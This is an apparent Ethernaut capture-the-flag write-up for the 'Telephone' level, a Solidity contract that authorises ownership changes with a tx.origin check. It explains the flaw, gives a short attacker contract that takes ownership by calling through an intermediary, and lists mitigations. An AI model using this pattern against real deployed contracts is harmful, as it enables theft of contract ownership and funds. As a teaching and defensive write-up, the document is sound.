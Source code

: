 ```yaml
---
title: Level 4 - Telephone
slug: level-4
published: 05-16-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut4.svg
---
```


## Objectives

1. Claim ownership of the contract.

## Vulnerabilities

### Bad access control

The function `changeOwner` is only restricted by the condition that `tx.origin` is not equal to `msg.sender`. Interacting via
a contract will satisfy this condition.

### tx.origin used for authorization

In general using `tx.origin` for authorizing critical behavior can be **exploited by malicious contract forwarding**.

## Exploit

1. Create a malicious contract that will call `changeOwner` from the `Telephone` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneHack {
    ITelephone target;

    constructor(address _targetAddress){
        target = ITelephone(_targetAddress);
    }

    function attack() external {
        target.changeOwner(msg.sender);
    }
}
```

2. Call the `attack` function transfer the ownership to yourself.

## Suggested mitigation

1. Remove all traces of `tx.origin` in the authorization logic since it's bad practice.
2. Adding a `onlyOwner` function modifier to `changeOwner`.

## Further reading

- SWC-115 - SWC - Authorization through tx.origin <ExternalLink href={"https://swcregistry.io/docs/SWC-115"} />
- **Ownership** by OpenZeppelin <ExternalLink href={"https://docs.openzeppelin.com/contracts/2.x/api/ownership"} />
